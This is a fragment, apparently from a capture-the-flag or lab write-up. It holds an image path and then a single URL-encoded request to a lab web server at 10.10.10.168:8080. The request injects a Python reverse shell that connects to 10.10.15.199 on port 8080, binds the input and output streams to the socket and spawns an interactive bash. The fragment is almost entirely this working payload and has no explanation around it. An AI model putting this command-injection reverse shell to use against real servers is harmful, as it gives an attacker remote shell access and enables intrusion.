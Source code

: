 


http://10.10.10.168:8080/';s=socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.199%22,8080));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);'
